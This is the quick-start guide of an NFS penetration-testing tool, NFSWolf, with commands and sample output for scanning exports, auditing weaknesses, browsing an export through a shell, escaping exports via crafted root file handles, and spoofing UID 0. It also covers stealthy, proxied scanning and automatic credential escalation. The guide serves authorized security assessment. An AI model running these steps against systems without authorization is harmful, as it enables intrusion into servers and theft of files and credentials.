

# Quick Start

This walkthrough takes you from zero to a complete NFS security assessment in five steps. It assumes you have NFSWolf [installed](installation.md) and a target NFS server to test.

!!! danger "Authorized targets only"
    NFSWolf performs active reconnaissance and exploitation against NFS services. Only run it against systems you own or have explicit written authorization to test. Unauthorized access to computer systems is a criminal offense in most jurisdictions.

## The attack path

NFSWolf follows a structured attack path from discovery through exploitation:



An NFS export is a directory the server shares over the network. Each step builds on the previous one. Scanning discovers what is exposed, analysis identifies weaknesses, escape breaks out of export boundaries, and the shell lets you interact with the filesystem directly.

## Step 1: Scan the target

Discover NFS services, exports, and server metadata:

```bash
nfswolf scan 10.0.0.1
```

??? example "Example output"

    ```
    [*] Scanning 1 host(s)...
    ╭──────────┬──────────────┬──────────┬───────┬──────────┬───────┬──────────┬───────────┬───────────────────┬─────────╮
    │ IP       │ RPC Port 111 │ NFS Port │ NFSv3 │ v3 Expts │ NFSv4 │ v4 Expts │ OS        │ Mount Port        │ Clients │
    ├──────────┼──────────────┼──────────┼───────┼──────────┼───────┼──────────┼───────────┼───────────────────┼─────────┤
    │ 10.0.0.1 │ open         │ 2049/tcp │ yes   │ 3        │ yes   │ 3+       │ Linux 5.x │ 20048/tcp (v1,v3) │ 2       │
    ╰──────────┴──────────────┴──────────┴───────┴──────────┴───────┴──────────┴───────────┴───────────────────┴─────────╯

    10.0.0.1
      RPC services:
        100000  portmapper    v2,3,4   111/tcp+udp
        100003  nfs           v3,4     2049/tcp
        100005  mountd        v1,3     20048/tcp+udp
      Exports (v3, v4):
        /srv/nfs                                *                       [AUTH_SYS] fh=0100070002000200...
        /home                                   10.0.0.0/24             [AUTH_SYS] fh=0100070002000200...
        /var/backups                            *                       [AUTH_SYS] fh=0100070002000200...
      Clients: 10.0.0.20:/srv/nfs, 10.0.0.31:/home
    [*] Done in 412ms  --  1 host(s) scanned, 1 with NFS
    # rerun: nfswolf scan 10.0.0.1
    ```

The scanner probes portmapper (port 111), MOUNT daemon, and NFS (port 2049) in parallel. It reports every export with its access control list, the server's NFS version support, and the raw file handles (chunks of server-internal data that identify files) needed for later steps.

You can also scan entire subnets:

```bash
nfswolf scan 10.0.0.0/24
```

!!! tip "Firewalled portmapper"
    If portmapper (port 111) is firewalled but you know the NFS port, skip it:

    ```bash
    nfswolf scan 10.0.0.1 --skip-rpc --nfs-port 2049
    ```

## Step 2: Analyze security posture

Run the full security audit against the server. `--allow-write` adds the squash probes, which create and remove a test file; leave it off and `analyze` never writes, but then it cannot test `no_root_squash` (F-4.1):

```bash
nfswolf analyze 10.0.0.1 --allow-write
```

??? example "Example output"

    ```
    +===================================+
    |  NFS Security Analysis: 10.0.0.1  |
    +===================================+

      OS:  Linux 5.x  |  NFS:  v3, v4
      Impl:  Linux knfsd (GARBAGE_ARGS on null-name LOOKUP)
      Timestamp:  2025-06-12T09:41:07Z

      Exports  -------------------------------------------------
    ╭──────────────┬─────────────────┬──────────┬────────────────────────┬─────────────────────╮
    │ Path         │ Allowed clients │ Auth     │ Flags                  │ Handle (partial)    │
    ├──────────────┼─────────────────┼──────────┼────────────────────────┼─────────────────────┤
    │ /srv/nfs     │ *               │ AUTH_SYS │ WILDCARD AUTH_SYS_ONLY │ 0100070002000200... │
    │ /home        │ 10.0.0.0/24     │ AUTH_SYS │ AUTH_SYS_ONLY          │ 0100070002000200... │
    │ /var/backups │ *               │ AUTH_SYS │ WILDCARD AUTH_SYS_ONLY │ 0100070002000200... │
    ╰──────────────┴─────────────────┴──────────┴────────────────────────┴─────────────────────╯

      File Handles  --------------------------------------------
      /srv/nfs: 0100070002000200000000006ea718660ea71866
      /home: 0100070002000200000000003f2c9a010ea71866
      /var/backups: 0100070002000200000000008b14dd420ea71866

      Findings  ------------------------------------------------
      Findings: 2 critical, 4 high, 1 medium, 3 low/info

      [CRITICAL]  /srv/nfs  F-2.1  Export escape possible -- filesystem root accessible via crafted handle
        Evidence: constructed ext4 root handle (inode 2) accepted; GETATTR returned a directory
      [CRITICAL]  /srv/nfs  F-4.1  no_root_squash detected  --  uid=0 credentials not remapped
        Evidence: probe file created as uid=0 is owned by uid 0
      [HIGH]      /srv/nfs  F-1.1  Export uses AUTH_SYS only (no Kerberos)
      [HIGH]      /srv/nfs  F-7.1  Export accessible to all hosts (world-accessible export)
      [HIGH]      /var/backups  F-7.1  Export accessible to all hosts (world-accessible export)
      ... 5 more findings ...

    # rerun: nfswolf analyze 10.0.0.1
    ```

The analyzer detects 43 of the 62 documented security findings, across identity attacks, access control bypasses, network exposures, privilege escalation vectors, information disclosures, and configuration weaknesses. Of the rest, the three denial-of-service findings are out of scope and 16 are documented for manual testing. Each finding references the specific RFC section or kernel behavior that makes it exploitable.

## Step 3: Drop into the shell

Connect to an export and explore it interactively:

```bash
nfswolf shell 10.0.0.1:/srv/nfs
```

??? example "Example session"

    ```
    [*] No --nfs-version specified, probing server...
    [+] Detected NFSv3 on port 2049
    [*] Mounting 10.0.0.1:/srv/nfs
    [+] Connected to 10.0.0.1 as uid=1000 gid=1000   --   type 'help' for commands

    nfswolf@10.0.0.1:/ uid=1000 gid=1000> ls
    mode             uid       gid          size  mtime                name
    ---------------------------------------------------------------------------
    drwxr-xr-x         0         0          4096  2025-03-15 09:22:10  .
    drwxr-xr-x         0         0          4096  2025-03-15 09:22:10  ..
    drwxr-xr-x        33        33          4096  2025-06-01 14:30:02  webapp
    -rw-r--r--         0         0          1847  2025-05-20 11:00:45  config.yml
    -rw-------      1001      1001         49152  2025-06-10 08:45:13  database.sqlite

    nfswolf@10.0.0.1:/ uid=1000 gid=1000> cat config.yml
    # Application configuration
    database:
      host: localhost
      port: 5432
      password: s3cret_db_pass
    ...

    nfswolf@10.0.0.1:/ uid=1000 gid=1000> cd webapp
    nfswolf@10.0.0.1:/webapp uid=1000 gid=1000> get index.html
    saved 24576 bytes -> ./index.html  sha256:a1b2c3d4...

    nfswolf@10.0.0.1:/webapp uid=1000 gid=1000> whoami
    uid=1000  gid=1000  hostname=localhost

    nfswolf@10.0.0.1:/webapp uid=1000 gid=1000> suid-scan
    [*] scanning for SUID/SGID binaries...
    [!] SUID 4755  uid=0  /webapp/bin/backup-helper

    nfswolf@10.0.0.1:/webapp uid=1000 gid=1000> secrets-scan
    [*] scanning for secrets and credentials...
    [!] potential secret: /webapp/.env  (512 bytes  0644)
    [!] potential secret: /webapp/config/credentials.json  (318 bytes  0600)

    nfswolf@10.0.0.1:/webapp uid=1000 gid=1000> exit
    # rerun: nfswolf shell 10.0.0.1:/srv/nfs
    ```

The shell supports 46 commands, plus 12 aliases. Some highlights:

| Command | Description |
|---------|-------------|
| `ls`, `cd`, `pwd` | Navigate the remote filesystem |
| `cat`, `get`, `put` | Read, download, and upload files |
| `get -r`, `put -r` | Recursive download/upload with progress bars |
| `whoami`, `id` | Show current credentials (the UID/GID the server sees) |
| `suid-scan` | Find SUID/SGID binaries accessible from this export |
| `secrets-scan` | Scan for sensitive files (shadow, SSH keys, certificates) |
| `world-writable` | Find world-writable files and directories |
| `escape-root` | Attempt export escape from within the shell |
| `exports` | Discover sibling exports via LOOKUPP traversal |

!!! tip "Auto-credential escalation"
    The shell automatically tries different user IDs when you access a file your current UID cannot read. It builds a list from the file's owner, identities visible in directory listings, and common service accounts, then tries each in sequence. No manual UID switching needed for most files.

## Step 4: Escape the export

Attempt to break out of the export directory and reach the full filesystem:

```bash
nfswolf escape 10.0.0.1:/srv/nfs
```

??? example "Example output"

    ```
    [*] Escaping 10.0.0.1 (comprehensive)
    [*] 3 unique seed handle(s) acquired
    [*] 1214 candidates constructed (deduped from 1630)
    [*] 2 tree-top(s) confirmed

      Exports discovered:
        /srv/nfs                       [MOUNT v3 EXPORT, MOUNT v1 EXPORT, NFSv4 pseudo-FS]

      Seeds acquired: 3 unique handles
      Candidates constructed: 1214 (deduped from 1630)
      Tree-tops confirmed: 2 (filtered 1 known export boundaries)

      Results:
        [OS-ESCAPE]  inode 2 gen=0 (ext2/3/4, JFS)  via MOUNT v3 /srv/nfs   [v3 v2 v4]  no_root_squash,rw
             handle: 01000700020000020000000001000000000000006ea718660ea71866
             ext4 inode 2 gen-based handle; ...
             rootfs dirs: bin, boot, dev, etc, proc, sys, usr, var (score: 70)

      1 handle(s) found from 3 seeds. 1 confirmed server rootfs.

      Next steps: Copy the handle above and use it with:
        nfswolf shell 10.0.0.1 --handle 01000700020000020000000001000000000000006ea718660ea71866
        nfswolf mount 10.0.0.1 /mnt/escape --handle 01000700020000020000000001000000000000006ea718660ea71866

    # rerun: nfswolf escape 10.0.0.1:/srv/nfs
    ```

The escape works by manipulating NFS file handles to reference the filesystem root (inode 2) instead of the export directory. It constructs root handles for 17 Linux filesystem types; tmpfs is the only tested type that resists. Use the root handle with `nfswolf shell --handle` to explore the entire filesystem.

For a fast single-export check (10-80 RPCs instead of a full sweep):

```bash
nfswolf escape 10.0.0.1:/srv/nfs --fast
```

## Step 5: Generate a report

Produce an HTML report for documentation or handoff:

```bash
nfswolf analyze 10.0.0.1 --json results.json
nfswolf convert -i results.json --format html -o report.html
```

The analyzer outputs ANSI-colored text to stdout by default, or machine-readable JSON via `--json`. For other formats (HTML, Markdown, CSV, TXT), capture the JSON and pass it through `convert`:

| Format | How to produce | Use case |
|--------|---------------|----------|
| Console | `nfswolf analyze target` | Terminal review |
| JSON | `nfswolf analyze target --json results.json` | Machine-readable, feeds into other tools |
| HTML | `nfswolf convert -i results.json --format html -o report.html` | Self-contained report for stakeholders |
| Markdown | `nfswolf convert -i results.json --format markdown -o findings.md` | GitHub issues, wikis, documentation |
| CSV | `nfswolf convert -i results.json --format csv -o findings.csv` | Spreadsheet import, bulk analysis |
| Text | `nfswolf convert -i results.json --format txt -o summary.txt` | Plain text summary |

Example workflow -- capture once, render many:

```bash
# Save raw analysis data
nfswolf analyze 10.0.0.1 --json results.json

# Convert to HTML any time
nfswolf convert -i results.json --format html -o report.html

# Or to Markdown
nfswolf convert -i results.json --format markdown -o findings.md
```

## Common options

These global flags apply to every subcommand (`--nfs-version`, in the last example, belongs to `shell` and `mount`):

```bash
# Spoof UID/GID — AUTH_SYS is trust-based, so the server believes whatever you send
nfswolf shell 10.0.0.1:/srv/nfs -u 0 -g 0

# Bind to a privileged port (required by servers with the `secure` export option)
nfswolf shell 10.0.0.1:/srv/nfs --privileged-port

# Add stealth delays between RPC calls
nfswolf scan 10.0.0.1 --delay 500 --jitter 200

# Increase verbosity for debugging
nfswolf scan 10.0.0.1 -vvv

# Route through a SOCKS5 proxy
nfswolf scan 10.0.0.1 --proxy 127.0.0.1:1080

# Force a specific NFS version (shell and mount only)
nfswolf shell 10.0.0.1:/srv/nfs --nfs-version 2
```

!!! note "Root not required"
    NFSWolf operates entirely in userspace via raw RPC calls. It does not use the kernel NFS client and does not require root on the attacker's machine. The only exception is `--privileged-port`, which needs root or `CAP_NET_BIND_SERVICE` to bind below port 1024.

## What to read next

- [Scan](../usage/scan.md) — Full scanner options, subnet scanning, UDP discovery
- [Analyze](../usage/analyze.md) — Finding categories, the 43 automated detections, output formats
- [Shell](../usage/shell.md) — Complete shell command reference, credential escalation, MOUNT bypass
- [Escape](../usage/escape.md) — Escape algorithm, filesystem support matrix, fast vs full mode
- [Global Options](../usage/global-options.md) — Every flag that applies across subcommands
- [Why NFS Is Insecure](../security/insecurity.md) — Background on the protocol-level weaknesses NFSWolf exploits
